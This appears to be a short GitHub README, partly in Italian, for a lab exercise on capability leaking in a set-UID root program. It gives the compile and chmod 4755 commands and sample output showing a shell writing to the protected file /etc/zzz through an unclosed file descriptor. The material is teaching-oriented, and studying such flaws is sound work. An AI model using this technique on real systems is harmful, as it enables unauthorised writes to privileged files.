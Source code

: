 # capability-leak-attack
This is a linux bash capability leak attack whit C program.

CAPABILITY LEAKING of set-UID

You need to compile cap_leaking.c
`gcc -o cap_leaking cap_leaking.c`

change the user owner and set the set-UID in the cap_leaking file
`sudo chown root cap_leaking
sudo chmod 4755 cap_leaking`


Now if I run the program it print the number of file descriptor.
`fd is 3
Real user id is 1000
Effective user id is 1000
$whoami
$seed
$echo bbbbbb >&3
$cat /etc/zzz
$this is a very important file
 bbbbbb`



######
il problema qua e' che non e' stato chiuso il file descriptor del file 
e la shell che apro ha gli stessi privilegi
il file descriptor e' indicato con il numero 3
normalemente non sono abilitato a scrivere nel file zzz ma quando abilito il 4755 chmod allora apro la shell con gli stessi privilegi di 4755
#####
